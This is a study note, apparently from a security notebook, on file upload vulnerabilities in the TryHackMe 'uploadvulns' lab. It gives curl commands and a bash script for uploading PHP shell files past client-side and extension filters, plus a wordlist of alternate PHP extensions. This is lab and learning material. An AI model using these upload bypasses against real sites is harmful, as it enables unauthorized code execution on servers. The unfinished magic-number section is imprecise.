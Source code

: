 # Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

### 1. File extension

a) Presence of valid file extension anywhere within the filename (_whitelist bypass_)

Some server-side filtering mechanism check if the filename contains a valid file extension without enforcing strict validation at the end of the filenam. This logic can be exploited by including the allowed extension within the filename while using a malicious extension.

A possible server-side logic:

```php
IF STRING ".[file-ext]" IS IN VARIABLE <user_input>:
    PROCEED
ELSE:
    RETURN ERROR MESSAGE
```

Eg. Given that the valid file extension is `.jpg`. A possible valid filename can be: `shell.jpg.php`. This allows us to bypass the filter and upload a PHP file — providing us a platform for code execution..



b) Using uncommon file extension for the same file-type (_blacklist bypass_)

Some server-side filtering logic may check the file extension, and reject the file based on a blacklist. However, blacklist implementations are often incomplete, and fail to cover all possible extensions for the same file-type. This allows us to sneak a filename through the filters, which may be recognized and executed by the server.

Refer to the sub-page named: _**File extension cheat-sheet**_.

Eg. Given that `.php` is blacklisted, `.php5` may still be allowed. Thus, the filename `shell.php5` will be accepted by the server, and may execute if configured to handle `.php5` files as PHP scripts — providing us a platform for code execution.



### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

I decided to create a simple Bash shell script to automate the process of finding the valid filename.

_**php-ext.txt**_ (wordlist of PHP file extensions)

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
```

_**Bash shell script**_

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.



Simple webshell (to transfer to a dedicated _**WEBSHELL**_ section?)

```php
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value
    echo "Command: " . htmlspecialchars($cmd);
} else {
    echo "No command provided.";
}
?>
```



### 2. Magic numbers

Magic number refers to the 4 hexadecimal digits present at the start of a file. It is used to identify the type of file, and can be viewed by using the `xxd`/`hexdump` command (`hexeditor` to edit). This logic is implemented by some servers to detect the file-type for filtering purposes —  but unfortunately, can be easily workaround.

...
